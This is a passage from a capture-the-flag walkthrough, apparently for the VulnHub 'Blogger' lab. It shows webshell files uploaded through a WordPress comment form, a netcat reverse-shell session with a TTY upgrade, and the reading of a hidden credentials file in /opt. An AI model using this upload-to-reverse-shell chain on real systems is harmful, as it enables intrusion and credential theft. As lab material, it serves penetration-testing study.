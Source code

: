 ![Untitled](Blogger/Untitled%205.png)

Now I have to click on `POST COMMENT` to make it register as a comment →

![Untitled](Blogger/Untitled%206.png)

After Forwording the request I got my File →

![Untitled](Blogger/Untitled%207.png)

I loaded the file on new tab and executed the cmd parameter command →

![Untitled](Blogger/Untitled%208.png)

I got it `Remote File Inclusion (RFI)` from there lets have a reverse shell and for that I used python3 reverse shell command and executed to after changing the IP address and port →

```bash
┌──(kali㉿kali)-[~/Downloads/Vulnhub/Blogger]
└─$ nc -lvnp 4444                   
listening on [any] 4444 ...
connect to [10.0.2.77] from (UNKNOWN) [10.0.2.15] 39218
/bin/sh: 0: can not access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ress/assets/fonts/blog/wp-content/uploads/2023/12$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                                                               
┌──(kali㉿kali)-[~/Downloads/Vulnhub/Blogger]
└─$ stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
[1]  + continued  nc -lvnp 4444

<ress/assets/fonts/blog/wp-content/uploads/2023/12$ ls -al
total 2428
drwxr-xr-x 2 www-data www-data    4096 Dec  4 04:28 .
drwxr-xr-x 3 www-data www-data    4096 Dec  3 15:45 ..
-rw-r--r-- 1 www-data www-data      35 Dec  4 04:28 RFI-1701664136.8367.php
-rw-r--r-- 1 www-data www-data      38 Dec  3 15:53 command_shell.php-1701618838.2813.gif
-rw-r--r-- 1 www-data www-data      38 Dec  4 04:14 command_shell.php-1701663290.5696.gif
-rw-r--r-- 1 www-data www-data 1190629 Dec  4 04:08 image-1701662936.6211.php
-rw-r--r-- 1 www-data www-data 1190629 Dec  4 04:12 image.php-1701663179.4635.jpg
-rw-r--r-- 1 www-data www-data   20335 Dec  4 03:39 webshell-1701661197.1599.php
-rw-r--r-- 1 www-data www-data   20331 Dec  4 04:25 webshell-1701663941.2434.php
-rw-r--r-- 1 www-data www-data   20335 Dec  4 03:48 webshell.php0000-1701661696.4207.gif
-rw-r--r-- 1 www-data www-data   20335 Dec  4 03:44 webshell1-1701661485.3889.php#00
<ress/assets/fonts/blog/wp-content/uploads/2023/12$ cd /        
www-data@ubuntu-xenial:/$
```
{: .nolineno}
{: .nolineno}

while enumeration I found the credentials in hidden file →

```bash
www-data@ubuntu-xenial:/$ ls -al /opt
total 12
drwxr-xr-x  2 root root 4096 Jan 17  2021 .
drwxr-xr-x 25 root root 4096 Dec  4 03:34 ..
-rw-r--r--  1 root root  104 Jan 17  2021 .creds
www-data@ubuntu-xenial:/$ cd /opt
www-data@ubuntu-xenial:/opt$ ls
www-data@ubuntu-xenial:/opt$ cat .creds
';u22>'v$)='2a#B&>`c'=+C(?5(|)q**bAv2=+E5s'+|u&I'vDI(uAt&=+(|`yx')Av#>'v%?}:#=+)';y@%'5(2vA!'<y$&u"H!"ll
www-data@ubuntu-xenial:/opt$
```